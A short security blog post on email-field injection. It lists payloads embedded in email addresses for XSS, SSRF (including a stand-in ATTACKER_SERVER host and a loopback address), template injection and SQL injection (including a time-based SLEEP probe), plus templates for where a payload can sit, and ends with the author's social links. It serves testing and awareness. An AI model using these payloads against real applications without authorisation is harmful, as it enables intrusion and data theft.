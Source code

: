 ![[img-rtUvLFnmR2KBMV8sEA4DX.jpg]]

As someone who thrives on exploring the intricacies of security vulnerabilities, I believe in sharing the techniques and knowledge I use in real-world projects can collectively raise awareness and strengthen security knowledge.

Email injection is a critical yet often overlooked vulnerability in web applications. It occurs when an attacker bypasses input validation or security filters within an email field, injecting malicious payloads that can lead to severe security issues. 

#### For instance, by manipulating the email input field, such as using payloads like:
```perl
#XSS  
test+(alert(0))@example.com  
test@example(alert(0)).com  
"alert(0)"@example.com  
<script src=//xsshere?”@email.com  
  
#SSRF  
john.doe@abc123.ATTACKER_SERVER.com  
john.doe@[127.0.0.1]  
  
#Template Injection   
"<%= 7 * 7 %>"@example.com  
test+(${{7*7}})@example.com  
  
#SQL Injection   
"' OR 1=1 -- '"@example.com  
"mail'); SELECT version();--"@example.com  
a'-IF(LENGTH(database())=9,SLEEP(7),0)or'1'='1"@a.com
```

Attackers can potentially exploit weaknesses, causing unexpected behaviors or injecting harmful scripts. These vulnerabilities if left unaddressed, can be exploited for various purposes, such as executing JavaScript code or manipulating email systems, which might compromise user data or system integrity.

> Payload can be anything in anywhere:
```perl
[payload]"@domain.com  
name@"[payload]"domain.com  
name[payload]@domain.com  
name@domain.com[payload]
```

---

GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)


